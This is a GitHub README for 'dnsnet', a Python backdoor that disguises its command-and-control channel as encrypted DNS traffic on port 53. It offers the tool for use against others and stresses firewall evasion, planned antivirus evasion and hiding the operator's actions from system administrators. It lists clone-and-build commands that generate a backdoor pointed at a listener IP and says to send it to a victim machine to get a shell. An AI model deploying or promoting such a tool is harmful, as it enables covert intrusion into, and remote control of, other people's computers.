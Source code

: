 # dnsnet


# Current Version: BetaV1

# Logo:
![box](https://user-images.githubusercontent.com/72181445/155982020-2db1333f-74b7-4c3f-8178-f14a75a0a65d.png)

# Description:
DNSNET Is a backdoor that uses encrypted "dns" to communicate with the command & control server.


DNSNET Uses udp port 53 to make itself look like dns traffic, this means that firewalls can't block this port (without losing dns rsolving) and i will be adding av evasion.

# "But why encrypted?" Answer:
If someone notices your actions, the sysadmin or whatever can't see what you were trying to do so your opsec will not be compromised

<img src=https://user-images.githubusercontent.com/72181445/155986263-d911e874-5ce2-4d99-a5d3-0c44ae65f9bc.png width=500 heigth=500></img>

# Disclaimer:
Im not responsible for any damage or harm done by this program in the hands of other entities

# Where is this used?:
I originally started coding this because i wanted a sure way to stealth backdoor victim machine during a red team assesments however

you can use it however you want (Im not responsible for your own actions).

# Update log:
Alpha: 10 times encryption and stabile server end

AlphaV2: Automatic reconnect if connection is lost and manual reset added by pressing ctrl + c on the server end, cryptography import problems solved

BetaV1: Backdoor now remembers where you cd'ed to allowing much better file sytem exploring, overall small fixes to make the backdoor more stable and usable

# In development?: no

# How to use (REPLACE "Listener ip" with the c2 ip):
```
git clone https://github.com/R00tendo/dnsnet
cd dnsnet
apt install unrar
unrar e cryptography.rar
pip3 install termcolor
python3 key_generator.py 5 > keys
python3 backdoor_generator.py <Listener ip>
python3 server.py
```

and send the backdoor directory and get your shell (if on windows i suggest using pyinstaller to compile it to exe first)
 
# Technical Details:
Encryption: Fernet 32bit encryption (that times the keys)
Program: Python3
  


